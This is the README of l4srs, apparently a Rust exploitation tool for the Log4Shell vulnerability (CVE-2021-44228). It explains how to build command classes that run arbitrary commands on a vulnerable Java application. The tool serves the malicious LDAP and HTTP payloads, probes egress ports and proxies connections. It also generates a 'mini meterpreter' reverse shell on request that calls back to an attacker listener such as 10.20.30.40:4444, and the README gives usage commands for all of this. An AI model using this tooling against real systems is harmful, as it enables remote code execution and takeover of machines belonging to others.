 # l4srs
Rust implementation of the Log 4 Shell (log 4 j - CVE-2021-44228)

This version will let you build command classes, dynamically serve
a mini meterpreter that runs in a thread of the exploited Java app,
and runs the LDAP and HTTP servers.  This version servers both the
LDAP and HTTP requests from the same port.

You can run on multiple ports simultaneously to attempt to see 
what ports may be available for egress on for the target machine.

If the request is not LDAP or HTTP it can then proxy the request
to another machine, again on the same port.  If the target machine
has only one egress port you can server LDAP, HTTP and use the same
port to proxy the meterpreter connection to another local port or
another machine.

This version no longer requires javac to be installed.  It still
allows for dynamic "class building" but does so by altering 
precompiled classes embeded in the executable.

This version adds the top 100 and top 1000 ports as defined by nmap.
use the --pC100 or the --pC1000 options.

Typical use case is to build command class(es) then run the server.
`l4srs build -c Cmd1 -l firefox -w Calc.exe`
`l4srs build -c TouchMe -l "touch /tmp/me"`

you can then request Cmd1 and this will launch firefox on linux 
and Calc on Windows.  It you request TouchMe it will touch 
/tmp/me on linux and on windows it will not execute anything.

you can then run `l4srs run --pC100` to start the server on the
top 100 ports and can serve Cmd1 or TouchMe.

Additionaly if you request MM:Host:port it will dynamically
create a mini meterpreter class that will reach out to the
host and port in the request.  If your msfconsole is running
on 10.20.30.40 on port 4444 you would request MM:10.20.30.40:4444
this is not built with the build command it is dymaically built
on the request.

